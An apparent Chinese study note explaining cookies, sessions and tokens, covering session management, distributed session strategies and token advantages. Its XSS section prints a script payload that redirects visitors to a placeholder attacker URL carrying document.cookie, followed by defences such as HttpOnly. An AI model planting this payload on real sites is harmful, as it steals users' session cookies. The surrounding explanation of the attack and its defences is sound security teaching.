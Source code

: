 # Cookie，Session，Token的区别和联系

[toc]

## 	Cookie

Cookie指某些网站为了辨别用户身份而储存在用户本地终端（Client Side）上的数据（通常经过加密）。Cookie总是保存在客户端中，按在客户端中的存储位置，可分为内存Cookie和硬盘Cookie。内存Cookie由浏览器维护，保存在内存中，浏览器关闭后就消失了，其存在时间是短暂的。硬盘Cookie保存在硬盘里，有一个过期时间，除非用户手工清理或到了过期时间，硬盘Cookie不会被删除，其存在时间是长期的。所以，按存在时间，可分为非持久Cookie和持久Cookie。

### Cookie的用途

#### 1) Session管理

一般来说Cookie配合session使用。服务器对于客户端的访问，为了保存状态，会生成一个JessionId。一般这个jessionid是会被保存到浏览器的，之后每次访问服务器，都会带上这个jessionid标识。
cookie是不能够跨域使用的。

#### 2) 个性化

Cookie可以被用于记录一些信息，以便于在后续用户浏览页面时展示相关内容。典型的例子是购物站点的购物车功能。

另一个个性化应用是广告定制。你访问过的网站会写入一些Cookies在你的浏览器里，这些Cookies会被一些广告公司用来售卖更精准的广告。

#### 3) User Tracking

Cookie也可以用于追踪用户行为，例如是否访问过本站点，有过哪些操作等。

### XSS攻击

一般来说，如果用户B能够获得用户A在xxx网站上的cookie，那么就能够冒充A用户进行操作。XSS(跨网站脚本)就可以做到这一点。

比如说一个网站没有任何的防范的措施，我们可以在他的留言板（用户都可以访问到的地方）上插入一段js代码用于获得他的cookie信息，并且发送到一个我们的服务器上

<script>
    document.location = 'http://你的网址/cookie.php?cookie=' + document.cookie;
</script>

这样子，每一个点击对应链接的人，他的cookie信息都会被我们劫持，之后我们可以通过cookie进行操控。

**当然，对于这个方法，也有简单的应对方法**。

1. **给Cookie添加HttpOnly属性**, 这种属性设置后, 只能在http请求中传递, 在脚本中,**document.cookie**无法获取到该Cookie值. 对XSS的攻击, 有一定的防御值. 但是对网络拦截, 还是泄露了.

2. **在cookie中添加校验信息, 这个校验信息和当前用户外置环境有些关系,比如ip,user agent等有关.**这样当cookie被人劫持了, 并冒用, 但是在服务器端校验的时候, 发现校验值发生了变化, 因此要求重新登录, 这样也是种很好的思路, 去规避cookie劫持.

3. **cookie中session id的定时更换, 让session id按一定频率变换**, 同时对用户而言, 该操作是透明的, 这样保证了服务体验的一致性.

## Session

session记录服务器和客户端会话状态的机制。session在服务端生成和保存，并转化为一个临时的Cookie（sessionId）发送给客户端，当客户端第一次请求服务器时，会检查是否携带了这个Session，如果没有则会添加Session。

### session和cookie的区别

- **安全性：** Session 比 Cookie 安全，Session 是存储在服务器端的，Cookie 是存储在客户端的。
- **存取值的类型不同**：Cookie 只支持存字符串数据，想要设置其他类型的数据，需要将其转换成字符串，Session 可以存任意数据类型。
- **有效期不同：** Cookie 可设置为长时间保持，比如我们经常使用的默认登录功能，Session 一般失效时间较短，客户端关闭（默认情况下）或者 Session 超时都会失效。
- **存储大小不同：** 单个 Cookie 保存的数据不能超过 4K，Session 可存储数据远高于 Cookie，但是当访问量过多，会占用过多的服务器资源。

### 分布式session

当我们的项目越来越大，用户也越来越多的时候，当一台服务器已经不能够满足现有用户规模的时候，session也就暴露出了他的问题所在。

假设第一次访问服务A生成一个sessionid并且存入cookie中，第二次却访问服务B客户端会在cookie中读取sessionid加入到请求头中，如果在服务B通过sessionid没有找到对应的数据那么它创建一个新的并且将sessionid返回给客户端,这样并不能共享我们的Session无法达到我们想要的目的。

#### 解决方案

#### 1）Session复制

在支持Session复制的Web服务器上，通过修改Web服务器的配置，可以实现将Session同步到其它Web服务器上，达到每个Web服务器上都保存一致的Session。

#### 2）Session粘滞

将用户的每次请求都通过某种方法强制分发到某一个Web服务器上，只要这个Web服务器上存储了对应Session数据，就可以实现会话跟踪。

#### 3）Session集中管理(推荐)

在单独的服务器或服务器集群上使用缓存技术，如Redis存储Session数据，集中管理所有的Session，所有的Web服务器都从这个存储介质中存取对应的Session，实现Session共享。

#### 4）基于Cookie管理

这种方式每次发起请求的时候都需要将Session数据放到Cookie中传递给服务端。

## Token

token指访问资源的凭据，用于检验请求的合法性。

- 安全，token 可以避免 CSRF 攻击(因为不需要 cookie 了)。

- 服务端无状态化、可扩展性好
- 支持移动端设备
- 支持跨程序调用

### Token与Session的区别

- token和session最大的区别在于token不再在服务端保存过多的数据，只做数据的检验，用校验token的时间去换取存取session的空间。

- Session 是一种记录服务器和客户端会话状态的机制，使服务端有状态化，可以记录会话信息。而 Token 是令牌，访问资源接口（API）时所需要的资源凭证。Token 使服务端无状态化，不会存储会话信息。
- Session 和 Token 并不矛盾，作为身份认证 Token 安全性比 Session 好，因为每一个请求都有签名还能防止监听以及重放攻击，而 Session 就必须依赖链路层来保障通讯安全了。如果你需要实现有状态的会话，仍然可以增加 Session 来在服务器端保存一些状态。